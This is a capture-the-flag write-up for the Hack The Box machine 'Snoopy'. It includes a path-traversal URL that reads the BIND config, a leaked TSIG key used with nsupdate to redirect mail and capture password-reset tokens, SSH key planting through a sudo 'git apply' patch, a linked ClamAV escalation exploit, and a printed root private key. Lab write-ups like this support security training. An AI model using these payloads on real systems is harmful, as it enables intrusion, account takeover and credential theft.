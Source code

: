 ## Snoopy


```
Nmap scan report for snoopy.htb (10.129.85.155)
Host is up (0.056s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT      STATE    SERVICE   VERSION
22/tcp    open     ssh       OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ee6bcec5b6e3fa1b97c03d5fe3f1a16e (ECDSA)
|_  256 545941e1719a1a879c1e995059bfe5ba (ED25519)
53/tcp    open     domain    ISC BIND 9.18.12-0ubuntu0.22.04.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.18.12-0ubuntu0.22.04.1-Ubuntu
80/tcp    open     http      nginx 1.18.0 (Ubuntu)
|_http-title: SnoopySec Bootstrap Template - Index
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
1103/tcp  filtered xaudio
4678/tcp  filtered traversal
43668/tcp filtered unknown
46816/tcp filtered unknown
52961/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


Snoppy scan reveals only 22 53 80 as open ports



in the bootstrap website there's an interesting hidden function whichi is GET /download that point on a .zip archive


in the .zip are present a pdf 



Charles Schultz CEO


cschultz@snoopy.htb

sbrown@snoopy.htb  (video!)


hangel@snoopy.htb
lpelt@snoopy.htb

pr@snoopy.htb





found a subdomain with mattermost service

http://mm.snoopy.htb




## Arbitrary File Read trought zip download


in snoopy.htb there's a download?file=announcement.pdf 

```http://snoopy.htb/download?file=....//....//....//....//....//....//....//....//....//....//etc/bind/named.conf
```



as we can see [here](https://bind9.readthedocs.io/en/v9.18.14/reference.html) we can find the secret of dns server for update 



so we can try point mail.snoopy.htb to our address in order to recieve email reset_token!



we can do it with nsupdate




```
export HMAC='hmac-sha256:rndc-key:BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA='

nsupdate -y $HMAC

> server 10.10.11.212
> update add mail.snoopy.htb. 900 IN A 10.10.14.233
> show
> send

```

now in mm.snoopy.htb/reset_password 


reset password for one employee.. tried with sbrown and cbrown





## SSH_MITM

In mattermost we can select an interesting function /server_provision 

and select LINUX 2222/tcp


found this creds cbrown : sn00pedcr3dential!!!



`ssh cbrown@snoopy.htb`



## Privesc


sudo -l reveals


```
[sudo] password for cbrown: 
Matching Defaults entries for cbrown on snoopy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User cbrown may run the following commands on snoopy:
    (sbrown) PASSWD: /usr/bin/git apply *
```



so we can try add things in sbrown directory ... and the only nice thing is to trying write my ssh pubkey in `/home/sbrown/.ssh/authorized_keys`

#### .patch
```
diff --git a/cbrown/.bash_history b/cbrown/.bash_history
deleted file mode 120000
index dc1dc0c..0000000
--- a/cbrown/.bash_history
+++ /dev/null
@@ -1 +0,0 @@
-/dev/null
\ No newline at end of file
diff --git a/sbrown/.ssh/authorized_keys b/sbrown/.ssh/authorized_keys
new file mode 100644
index 0000000..e69de29
--- /dev/null
+++ b/sbrown/.ssh/authorized_keys
@@ -0,0 +1 @@
+ssh-rsa AAAAAAAAAAAAAAAzaC1..................MOHycJSTWM/pHlUsG...cDfhYojnjivCpzicSpLq
```


## User flag
so ssh sbrown@snoopy.htb







## ROOT



sudo -l shows clamscan 

Found this on [google](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-clamav-privilege-escalation/)
and also this [exploit](https://raw.githubusercontent.com/josemlwdf/ClamAV_Privilege_Escalation/main/root_exploit.py) on github 


##### extracted ssh root id_rsa


```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```


```
chmod 600 id_rsa 
ssh -i id_rsa root@snoopy.htb
```










